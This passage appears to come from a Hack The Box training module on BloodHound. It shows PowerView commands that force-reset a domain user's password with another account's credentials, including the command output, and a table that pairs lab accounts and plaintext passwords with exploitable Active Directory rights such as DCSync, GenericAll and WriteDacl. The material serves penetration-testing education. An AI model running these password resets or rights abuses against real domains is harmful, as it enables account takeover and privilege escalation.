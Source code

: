 Then create a secure string object for the password we want to set to Rosy:

```powershell
PS C:\htb> $UserPassword = ConvertTo-SecureString 'NewRossyCreds!' -AsPlainText -Force

```

Use the function `Set-DomainUserPassword` with the option `-Identity`, which corresponds to the account we want to change its password (rosy), add the option `-AccountPassword` with the variable that has the new password, use the option `-Credential` to execute this command using Grace's credentials. Finally, set the option `-Verbose` to see if the change was successful.

```powershell
PS C:\htb> Set-DomainUserPassword -Identity rosy -AccountPassword $UserPassword -Credential $Cred -Verbose
VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'rosy'
VERBOSE: [Set-DomainUserPassword] Password for user 'rosy' successfully reset

```

We can now connect via RDP to `SRV01` using `Rosy` account.

### BloodHound Playground

One of the things we wanted to achieve with this BloodHound module was to create a playground to test as many BloodHound edges as possible. This is because sometimes we want to try a concept before applying it in a Pentest or understand why a specific command fails during a CTF. So we created multiple vulnerabilities in this lab for these tests and practiced as many edges as we wanted.

The following table contains a list of credentials and the edges that can be exploited.

| **Username** | **Password**     | **Edge**                         | **Target**       |
| ------------ | ---------------- | -------------------------------- | ---------------- |
| grace        | Password11       | ForceChangePassword              | rosy             |
| rosy         | Password99       | CanRDP, CanPSRemote, ExecuteDCOM | SRV01            |
| sarah        | Password12       | AdminTo                          | SRV01            |
| martha       | Password13       | AddMembers                       | ITManagers       |
| victor       | Password14       | AddSelf                          | ITManagers       |
| ester        | Password15       | AllowedToDelegate                | SRV01            |
| peter        | Licey2023        | DCSync                           | INLANEFREIGHT    |
| pedro        | Password17       | GenericAll (User)                | ester            |
| pedro        | Password17       | GenericAll (Group)               | ITAdmins         |
| pedro        | Password17       | GenericAll (Computer)            | WS01             |
| pedro        | Password17       | GenericAll (Domain)              | INLANEFREIGHT    |
| carlos       | Password18       | WriteDacl (User)                 | juliette         |
| carlos       | Password18       | WriteDacl (Group)                | FirewallManagers |
| carlos       | Password18       | WriteDacl (Computer)             | SRV01            |
| carlos       | Password18       | WriteDacl (Domain)               | INLANEFREIGHT    |
| indhi        | Password20       | WriteOwner (User)                | juliette         |
| indhi        | Password20       | WriteOwner (Group)               | FirewallManagers |
| indhi        | Password20       | WriteOwner (Computer)            | SRV01            |
| indhi        | Password20       | WriteOwner (Domain)              | INLANEFREIGHT    |